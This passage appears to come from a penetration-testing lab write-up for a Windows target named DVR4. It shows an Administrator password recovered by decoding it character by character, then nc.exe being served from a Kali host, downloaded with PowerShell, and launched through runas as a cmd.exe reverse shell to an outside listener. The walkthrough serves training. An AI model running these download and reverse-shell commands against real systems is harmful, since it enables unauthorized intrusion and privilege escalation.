 That's odd. It appears that only 2 characters were encoded. It may be better to create single character passwords and check the encoded password one by one to figure out what the last character of the Administrator password is.

Starting with "!", we find the following results:

- ! = B398
- @ = 78A7
- # = <blank> (This is probably why the first password didn't work)
- $ = D9A8

We can stop here as the last character of the password we are trying to crack is "D9A8". So, now we know that the Administrator password is `14WatchD0g$`. We can attempt to use this password to SSH into the target using the Administrator account but it doesn't seem to be allowed.

```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@192.168.120.239   
administrator@192.168.120.239's password: 
Permission denied, please try again.
```

Perhaps we can upload a netcat executable and start an Administrator reverse shell using `runas`. Let's copy the **nc.exe** to our working directory and host it in a python webserver.

```
┌──(kali㉿kali)-[~]
└─$ cp /usr/share/windows-binaries/nc.exe .                          
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Back in the SSH session, let's create a temp directory and download **nc.exe** from our Kali host to this folder.

```
C:\Users\viewer>mkdir C:\temp

C:\Users\viewer>powershell.exe -c "iwr http://192.168.118.14/nc.exe -OutFile C:\temp\nc.exe"  
```

Next, let's start a listener to catch our reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
```

Finally, from our SSH session, let's use `runas` to attempt to start a reverse shell using the Administrator credentials.

```
C:\Users\viewer>runas /env /profile /user:DVR4\Administrator "C:\temp\nc.exe -e cmd.exe 192.168.118.14 443" 
Enter the password for DVR4\Administrator:                                                                  
Attempting to start C:\temp\nc.exe -e cmd.exe 192.168.118.14 443 as user "DVR4\Administrator" ...
```
